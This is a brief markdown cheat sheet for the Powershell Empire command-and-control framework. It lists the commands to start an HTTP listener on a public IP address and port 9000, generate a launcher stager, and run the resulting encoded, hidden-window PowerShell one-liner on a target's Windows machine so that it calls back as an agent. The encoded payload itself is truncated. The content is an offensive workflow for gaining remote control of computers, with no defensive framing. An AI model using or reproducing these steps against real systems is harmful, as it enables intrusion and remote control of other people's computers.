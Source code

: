# Powershell Empire Quick Start Cheatsheet

Empire setup:

```
uselistener http
set Port 9000
set BindIP 0.0.0.0
set Host http://66.35.63.203:9000 (skippy)
execute

back

usestager multi/launcher
set Listener http
execute
```

Prints something like this: `powershell -noP -sta -w 1 -enc  SQB<snip>AWAA= `

- You run this in the targets Windows' Powershell 

`agents`
(lists agents)


#powershell 